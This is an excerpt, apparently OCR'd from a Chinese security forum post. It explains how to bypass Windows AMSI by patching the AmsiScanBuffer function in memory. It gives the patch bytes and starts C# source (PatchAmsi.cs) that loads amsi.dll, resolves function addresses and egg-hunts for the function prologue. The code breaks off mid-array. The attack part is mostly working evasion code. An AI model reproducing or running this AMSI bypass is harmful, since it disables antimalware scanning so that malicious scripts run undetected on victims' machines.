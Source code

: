 ![image-20211119222704258](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6f3aa9355c0ed83588d29a28bab4e2ed8330fe0c.png)

内存修补Bypass AMSI
---------------

主要思路是通过找到内存中AmsiScanBuffer函数的位置，然后通过patch，让AmsiScanBuffer这个函数不再继续运行，直接在函数的开始让它返回一个0

后来微软进行了一次更新对`.NET`程序集AmsiScanBuffer的扫描结果必须返回一个有效值

`0xb8, 0x57, 0x00, 0x07, 0x80`，同时要加上0xC3（0xC3是return）

PatchAmsi.cs代码如下：

```php
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Reflection;
using System.Runtime.InteropServices;

namespace AMSI
{
  public class Program
    {

        [DllImport("kernel32")]
        private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        private static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        static void Main(string[] args)
        {
            new Program();
        }

        public Program()
        {
            Patch();
        }

        public static void Patch()
        {
            // Console.WriteLine("-- AMSI Patching");
            //Console.WriteLine("-- Paul (@am0nsec)\n");

            // Get the DllCanUnload function address
            IntPtr hModule = LoadLibrary("amsi.dll");
            //Console.WriteLine("[+] AMSI DLL handle: " + hModule);

            IntPtr dllCanUnloadNowAddress = GetProcAddress(hModule, "DllCanUnloadNow");//AmsiScanBuffer
            //Console.WriteLine("[+] DllCanUnloadNow address: " + dllCanUnloadNowAddress);

            // Dynamically get the address of the function to patch
            byte[] egg = { };
            if (IntPtr.Size == 8)
            {
                egg = new byte[] {
                    0x4C, 0x8B, 0xDC,       // mov     r11,rsp
                    0x49, 0x89, 0x5B, 0x08, // mov     qword ptr [r11+8],rbx
                    0x49, 0x89, 0x6B, 0x10, // mov     qword ptr [r11+10h],rbp
                    0x49, 0x89, 0x73, 0x18, // mov     qword ptr [r11+18h],rsi
```